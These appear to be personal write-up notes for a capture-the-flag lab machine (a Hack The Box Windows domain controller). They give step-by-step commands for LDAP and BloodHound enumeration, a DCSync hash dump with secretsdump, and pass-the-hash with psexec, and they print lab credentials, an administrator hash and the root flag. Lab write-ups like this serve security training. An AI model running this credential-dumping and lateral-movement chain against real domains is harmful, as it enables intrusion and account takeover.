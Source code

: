 
```
ldapdomaindump ldaps://10.10.10.175 -u 'EGOTISTICALBANK\svc_loanmgr' -p 'Moneymakestheworldgoround!'
```

```
bloodhound-python -d EGOTISTICALBANK.local -u svc_loanmgr -p 'Moneymakestheworldgoround!' -ns 10.10.10.175 -c all
```

It seems that the problem lies b/w the domain name.
![[Pasted image 20240502031931.png]]


Remember that i have seen something in winpeas that stand out
![[Pasted image 20240502031857.png]]

```
USERDOMAIN: EGOTISTICALBANK
USERDNSDOMAIN: EGOTISTICAL-BANK.LOCAL
```


So the command successfully run in the end
```
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u svc_loanmgr -p 'Moneymakestheworldgoround!' -ns 10.10.10.175 -c all
```

![[Pasted image 20240502032554.png]]

Will run the Neo4j and Bloodhound console

So if you see SVC_loanmgr has Dsync rights
![[Pasted image 20240502033313.png]]

![[Pasted image 20240502033429.png]]

But let's see if we can run secret's dump or not cuz that's the 1st thing that comes to my mind.
```
secretsdump.py EGOTISTICALBANK/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```
![[Pasted image 20240502034225.png]]


We  only want admin rights so will copy the admin hash and will simply pass it
```
823452073d75b9d1cf70ebdf86c7f98e
```


```
psexec.py EGOTISTICALBANK/administrator@10.10.10.175 -hashes 823452073d75b9d1cf70ebdf86c7f98e:823452073d75b9d1cf70ebdf86c7f98e
```
![[Pasted image 20240502034412.png]]

Root flag
```
7a5dc0d7d40f0a8ef9663e81fbd11467
```
![[Pasted image 20240502034520.png]]
